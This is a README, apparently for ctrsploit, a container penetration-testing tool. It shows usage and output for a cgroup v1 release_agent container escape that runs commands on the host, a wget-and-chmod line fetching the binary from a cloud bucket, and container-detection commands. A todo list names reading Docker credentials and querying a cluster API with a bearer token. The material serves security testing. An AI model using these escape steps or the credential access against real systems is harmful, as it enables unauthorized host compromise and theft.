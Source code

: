 # ctrsploit: 一个容器场景自动化渗透测试工具

## Usage
### Help
```
wget -O ctrsploit  && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### run a exploit
```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

例如: 使用'cgroupv1-release_agent'技术逃逸:
```
root@host # docker run -ti --rm --security-opt="seccomp=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://nebula-pentest-tools.obs.cn-south-1.myhuaweicloud.com/ctrsploit/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

如果我们不知道容器rootfs在宿主机上的路径，我们仍然可以完成逃逸：
```
[root@container /]# ./ctrsploit e ra3 -c "cat /etc/hostname"
INFO[0000] trying 100                                   
INFO[0000] trying 200                                   
INFO[0000] trying 300                                   
INFO[0000] trying 400                                   
INFO[0000] trying 500                                   
...
INFO[0017] trying 11700                                 
INFO[0017] found /output140128693, success              
INFO[0018] 
===========start of result==============
cce-arm-euler28-30231
===========end of result============== 
```

### 信息收集
usage
```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

查看当前是否在容器内，在何容器内：
```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔ 
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

查看cgroup版本
```
root@ctr:/# ./ctrsploit env c
INFO[0000] ===========Cgroups=========
is cgroupv1: ✘
is cgroupv2: ✔ 
```

```
root@ctr:/# ./ctrsploit env g
INFO[0000] ===========Overlay=========
Overlay enabled: false 
INFO[0000] ===========DeviceMapper=========
DeviceMapper enabled: true
DeviceMapper used: true
The number of devicemapper used in running container: 11 ( =(count(running containers)+1) )
The host path of container's rootfs: /var/lib/docker/devicemapper/mnt/1659264e845b55b8c9ec42034d7d2dcc23159ebd06f3c69983e764f26eab9721/rootfs 
```

## Pre-Built Release

## Todo List
- [ ] 环境探测
    - [ ] 当前是否处于容器环境内
      - [ ] 当前集群环境
        - [ ] swarm
        - [x] k8s
          - [x] `ls -lah /var/run/secrets/kubernetes.io`
          - [x] `cat /proc/self/mountinfo | grep hosts |grep pods`
          - [x] `cat /proc/self/cgroup |grep kubepods`
          - [x] `cat /etc/hostname`
      - [ ] 当前cri
        - [x] docker
          - [x] `ls -lah /.dockerenv`
          - [x] `head -n 1 /proc/self/mountinfo | grep docker`
          - [x] `cat /proc/self/cgroup |grep docker`
          - [x] `cat /proc/self/mountinfo | grep "hosts|hostname" |grep docker`
          - [x] `cat /etc/hostname` // not convinced
        - [ ] containerd
        - [ ] ...
    - [ ] 当前容器版本探测
      - [ ] cluster api: curl -k https://10.0.0.233:5443/apis/version.cce.io/v1beta1 --header "Authorization: Bearer $token"
    - [ ] 当前容器完整ID
    - [ ] 安全机制开启情况
        - [ ] 当前容器capability
        - [ ] 是否开启seccomp
        - [ ] 是否开启LSM
        - [ ] cgroup
            - [ ] cgroup version
                - [x] v1
                - [x] v2
    - [ ] block dev name
        - [ ] /sys/block/nvme0n1
    - [ ] 容器rootfs在宿主机的绝对路径
        - [ ] docker
        - [ ] k8s variant 1
        - [ ] k8s variant 2
    - [ ] openstack api accessibility
    - [ ] graphdriver
        - [x] overlay
        - [x] devicemapper
        - [ ] aufs
- [ ] execute
    - [ ] outside of container
        - [ ] get docker credentials
            - [ ] $HOME/.docker/config.json
- [ ] exploit
    - [ ] CVE-2019-16884
    - [ ] CVE-2019-14271
    - [ ] CVE-2021-21285  
    - [ ] 挂载目录->软链接->再次挂载 逃逸
    - [x] cgroupv1 notify_on_release escape
        - [x] unknown rootfs support 
    - [x] cgroupv1 notify_on_release escape with unknown rootfs
- [ ] auto exploit